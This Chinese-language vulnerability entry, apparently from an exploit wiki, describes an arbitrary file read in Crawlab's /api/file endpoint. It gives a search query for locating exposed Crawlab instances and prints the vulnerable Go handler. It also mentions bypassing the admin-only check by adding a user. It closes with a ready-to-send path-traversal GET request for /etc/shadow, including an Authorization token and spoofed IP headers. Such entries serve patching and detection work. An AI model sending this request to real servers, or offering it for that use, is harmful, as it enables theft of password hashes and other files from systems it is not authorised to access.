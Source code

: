 # Crawlab file 任意文件读取漏洞

## 漏洞描述

Crawlab 后台 /api/file接口 存在任意文件读取漏洞，攻击者通过漏洞就可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b.png)

首先查看路由位置 main.go 文件 中的 file 接口对应的函数

![img](/assets/PeiQi-Wiki/img/1639305536844-3306cb0b-059b-42c1-8c21-c651653d92e9.png)

```python
package routes

import (
	"crawlab/utils"
	"github.com/gin-gonic/gin"
	"io/ioutil"
	"net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
	path := c.Query("path")
	fileBytes, err := ioutil.ReadFile(path)
	if err != nil {
		HandleError(http.StatusInternalServerError, c, err)
	}
	c.JSON(http.StatusOK, Response{
		Status:  "ok",
		Message: "success",
		Data:    utils.BytesToString(fileBytes),
	})
}
```

![img](/assets/PeiQi-Wiki/img/1639305576972-90f4db89-a5b3-47e7-89da-a16927d5bec8.png)

接口调用为后台才可调用，通过任意用户添加可以完成绕过

path参数可控，发送Get请求读取任意文件

```python
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
```

![img](/assets/PeiQi-Wiki/img/1639305725285-1b2776a5-d47d-46e1-922f-e2460388e3f8.png)